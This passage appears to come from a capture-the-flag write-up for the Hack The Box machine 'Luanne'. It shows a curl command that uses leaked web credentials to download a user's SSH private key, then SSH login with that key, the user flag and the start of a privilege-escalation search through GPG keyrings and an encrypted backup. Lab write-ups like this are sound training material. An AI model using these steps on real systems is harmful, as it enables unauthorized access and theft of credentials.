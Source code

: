 ```sh
<tbody>
<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```

A directory listing, showing an id_rsa file in r.michaels home directory. I downloaded the key with `curl -u webapi_user:iamthebest localhost:3001/~r.michaels/id_rsa` and used ssh to login into the account from my local machine:

```sh
$ ssh -i id_rsa r.michaels@10.10.10.218
Last login: Fri Mar 26 01:41:54 2021 from 10.10.14.17
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ whoami
r.michaels
luanne$ ls -al
total 52
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 .
drwxr-xr-x  3 root        wheel   512 Sep 14  2020 ..
-rw-r--r--  1 r.michaels  users  1772 Feb 14  2020 .cshrc
drwx------  2 r.michaels  users   512 Sep 14  2020 .gnupg
-rw-r--r--  1 r.michaels  users   431 Feb 14  2020 .login
-rw-r--r--  1 r.michaels  users   265 Feb 14  2020 .logout
-rw-r--r--  1 r.michaels  users  1498 Feb 14  2020 .profile
-rw-r--r--  1 r.michaels  users   166 Feb 14  2020 .shrc
dr-x------  2 r.michaels  users   512 Sep 16  2020 .ssh
dr-xr-xr-x  2 r.michaels  users   512 Nov 24 09:26 backups
dr-xr-x---  4 r.michaels  users   512 Sep 16  2020 devel
dr-x------  2 r.michaels  users   512 Sep 16  2020 public_html
-r--------  1 r.michaels  users    33 Sep 16  2020 user.txt
luanne$
```

And that's the user flag right there `/home/r.michaels/user.txt`. This directory contains everything required to escalate privileges to the root account. This took me a bit of time to figure out. Initially, I started looking at privilege escalation detection scripts. But looking closely, I noticed the `.gnupg` contains a key, and the `backups` directory has an encrypted file.

```sh
luanne$ pwd
/home/r.michaels
luanne$ ls -al .gnupg
total 16
drwx------  2 r.michaels  users   512 Sep 14  2020 .
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 ..
-rw-------  1 r.michaels  users   603 Sep 14  2020 pubring.gpg
-rw-------  1 r.michaels  users  1291 Sep 14  2020 secring.gpg
luanne$ ls -al backups/
total 12
dr-xr-xr-x  2 r.michaels  users   512 Nov 24 09:26 .
dr-xr-x---  7 r.michaels  users   512 Sep 16  2020 ..
-r--------  1 r.michaels  users  1970 Nov 24 09:25 devel_backup-2020-09-16.tar.gz.enc
```
